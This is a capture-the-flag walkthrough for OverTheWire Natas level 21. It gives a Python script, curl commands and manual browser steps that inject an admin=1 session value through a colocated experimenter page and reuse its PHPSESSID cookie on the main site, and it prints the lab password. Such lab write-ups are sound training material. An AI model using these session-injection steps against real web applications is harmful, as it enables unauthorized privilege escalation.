# 🕸️Natas Level 21 → Level 22

```
http://natas21.natas.labs.overthewire.org
```
Username: natas21  
Password: (natas21_password)



We examined the **source code** of the main page and noticed the functions `print_credentials` and ``$_SESSION["admin"] == 1``, which are similar to what we saw in the previous challenge.



Next, we navigated to the **experimenter page**.



We examined the **source code** and found a **debug section** along with a **submit form**, which is quite interesting.




---

### 👥 What does "colocated" mean?

When website A is **colocated** with website B, it means that both websites are hosted in the same physical location or on the same server infrastructure.

Here are a few common interpretations depending on context:

- **Same data center:**  
  Both websites’ servers are physically located in the same data center facility.

- **Same hosting server:**  
  The websites share the same physical or virtual machine (for example, two domains running on the same web server).

- **Same IP address or hosting provider:**  
  In some cases, “colocated” can simply mean that both sites use the same hosting provider, or even the same IP address.

---
So, in short:  

✅ **Colocated = sharing the same physical or network location for hosting.**

---

## 🔐 Security Implications of Being Colocated

If two websites are **colocated** (hosted on the same server or within the same environment), there are a few important security considerations to keep in mind:

- If one website has a **vulnerability** (e.g., weak code, malware), it could affect the other — especially in **poorly configured shared hosting** environments.  

- The websites might **share the same IP address**, so if one site gets **blacklisted or flagged for spam**, the other could also be impacted.  

- On a **well-configured server**, the host will **isolate each account**, minimizing this risk — but **total isolation** is stronger on **dedicated or VPS hosting** setups.

---

Next, we test it by clicking **Update** and appending ``?debug`` to the end of the URL.



We discovered an **Array with key-value pairs**, similar to the previous challenge, and wondered what would happen if we added our own pair, like ``[admin] => 1``.

There’s more than one way to tackle this challenge 🔥, but I’ll walk you through 3 different methods:
- Method 1: 🐍 Python Script
- Method 2: 🌐 Curl Command
- Method 3: ✋ Manual Testing

### Method 1: 🐍 Python Script

```
import requests


# Credentials for natas21
username = "natas21"
password = "BPhv63cKE1lkQl04cE5CuFTzXe15NfiH"

# Target URL
url = "http://natas21.natas.labs.overthewire.org"
exp_url = "http://natas21-experimenter.natas.labs.overthewire.org?debug"


# Payload we will submit to the experimenter page.
payload = {
    "align": "right",
    "fontsize": "300",
    "bgcolor": "blue",
    "admin": "1",
    "submit": "Update"
}

# Start a session to persist cookies and headers across requests
session = requests.Session()

print("="*80)
print(" "*30, "Experimenter Debug Page")
print("="*80)

# send POST request to the experimenter page
post_response = session.post(
    exp_url,
    data=payload,
    auth=(username, password)
)

# extract admin cookie from experimenter page
admin_cookie = session.cookies["PHPSESSID"]
# print experiementer page response
print(post_response.text)
print(admin_cookie)

print("="*80)
print(" "*30, "Natas21 Main Page")
print("="*80)


# perform a GET request to the main natas21 page with admin_cookie
get_response = session.get(
    url,
    cookies = {"PHPSESSID": admin_cookie},
    auth=(username, password)
)

# Print the HTML from the main page response
print(get_response.text)
print("="*80)


```
Make sure the file is **executable**, and then go ahead and **run** it.



The flag should appear instantly once you run it.



### Method 2: 🌐 Curl Command

```
USER="natas21"; PASS="BPhv63cKE1lkQl04cE5CuFTzXe15NfiH";

curl -s -c /tmp/c -u "$USER:$PASS" -d "align=right" -d "fontsize=300" -d "bgcolor=blue" -d "admin=1" -d "submit=Update" "http://natas21-experimenter.natas.labs.overthewire.org?debug" >/dev/null

PHPSESSID=$(awk '/PHPSESSID/ {print $7; exit}' /tmp/c); 

curl -s -b "PHPSESSID=$PHPSESSID" -u "$USER:$PASS" "http://natas21.natas.labs.overthewire.org" | grep -iE "username|password"

```



### Method 3: ✋ Manual Testing

**Note:** This method requires **quick hands** ⏱️, as it only works within a **very short time window**.

I found this **browser extension** 🔧 to be really useful for this task.



Copy and paste this URL with our payload 📎 into the browser, then quickly copy the cookie and navigate to the main page 🏠.
```
http://natas21-experimenter.natas.labs.overthewire.org/?align=center&fontsize=100&bgcolor=yellow&submit=update&admin=1
```



Replace the **original cookie** 🍪 with the value you copied earlier from the **experimenter page** and **click save**, then **quickly refresh the page** 🔄. The flag then should appear 🏁.



### 🪲 Debugging

If we paste our payload 📎 into the browser 🌐
```
http://natas21-experimenter.natas.labs.overthewire.org/?align=center&fontsize=100&bgcolor=yellow&submit=update&admin=1
```
Then, if we debug it within a few seconds ⏱️, we will get this output 📄.
```
http://natas21-experimenter.natas.labs.overthewire.org/?debug
```


However, if we paste our payload into the browser 📎 and wait 5 seconds or more ⏳, we will get this output 📄.



Awesome work! You’ve got the flag needed for the next challenge.


